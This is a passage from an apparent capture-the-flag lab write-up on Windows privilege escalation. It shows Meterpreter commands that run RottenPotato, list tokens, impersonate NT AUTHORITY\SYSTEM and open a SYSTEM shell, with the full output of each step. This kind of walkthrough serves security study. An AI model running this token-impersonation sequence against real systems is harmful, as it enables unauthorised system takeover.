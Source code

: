As it was seen in the screenshot above, shows us that in the available tokens there is onl  **NT SERVICE\SQLSERVERAGENT**.  
It is time to use the rottenpotato that we just downloaded, to execute it we must do the following:  

{% highlight bash %}
meterpreter > execute -Hc -f C:\\Users\\Sarah\\Desktoprottenpotato.exe
Process 7996 created.
Channel 2 created.

meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
TALLY\Sarah

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM
NT SERVICE\SQLSERVERAGENT
{% endhighlight %}  

OK, we already have a Token available of *NT AUTHORITY\SYSTEM*.  
To perform the token impersonating we do the following:

{% highlight bash %}
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM


meterpreter > shell
Process 3452 created.
Channel 3 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Sarah\Desktop> whoami
nt authority\system
{% endhighlight %}  

Success!   
We have our SYSTEM shell.
